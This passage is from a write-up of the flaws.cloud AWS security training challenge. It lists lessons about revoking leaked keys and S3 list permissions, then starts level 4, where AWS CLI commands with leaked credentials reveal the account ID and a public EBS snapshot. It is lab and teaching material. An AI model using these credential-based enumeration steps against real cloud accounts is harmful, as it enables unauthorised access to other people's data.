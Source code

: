 
Lesson learned
---



1. key
   - should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced. Roll your secrets early and often.
2. list right
   - can't restrict the ability to list only certain buckets in AWS
   - if give the ability to list some buckets in an account, they will be able to list them all.


---


## Level 4 - protect the volume screenshot

> https://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/

<font color=OrangeRed> For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud. It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it. </font>

1. find the account ID

```bash
# to do some enumeration of the user:
# STS  Security Token Service, handles security controls of various AWS accounts.
# The other one to check would be IAM.
$ aws sts get-caller-identity \
    --profile flaws
# {
#     "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
#     "Account": "975426262029",
#     "Arn": "arn:aws:iam::975426262029:user/backup"
# }
```

2. find the snapshot


```bash
$ aws ec2 describe-snapshots \
    --owner-id 975426262029 \
    --profile flaws
# {
#     "Snapshots": [
#         {
#             "Description": "",
#             "Encrypted": false,
#             "OwnerId": "975426262029",
#             "Progress": "100%",
#             "SnapshotId": "snap-0b49342abd1bdcb89",
#             "StartTime": "2017-02-28T01:35:12+00:00",
#             "State": "completed",
#             "VolumeId": "vol-04f1c039bc13ea950",
#             "VolumeSize": 8,
#             "Tags": [
#                 {
#                     "Key": "Name",
#                     "Value": "flaws backup 2017.02.27"
#                 }
#             ]
#         }
#     ]
# }

```